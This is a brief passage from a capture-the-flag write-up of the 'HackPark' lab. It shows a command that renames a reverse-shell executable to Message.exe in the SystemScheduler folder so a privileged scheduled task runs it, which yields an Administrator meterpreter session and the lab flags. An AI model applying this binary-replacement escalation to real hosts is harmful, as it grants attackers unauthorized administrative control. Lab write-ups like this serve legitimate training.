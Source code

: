 ```bash

# Rename the shell to get a meterpreter session
ren revshell32bitwin.exe Message.exe
C:\Program Files (x86)\SystemScheduler>ren revshell32bitwin.exe Message.exe

```

### HACKPARK\Administrator

Completing all of the above, we now have Administrator access to the host through an interactive meterpreter session. From here we get the 2 flags “user.txt” and “root.txt”

![Untitled](/hackpark/Untitled%205.png)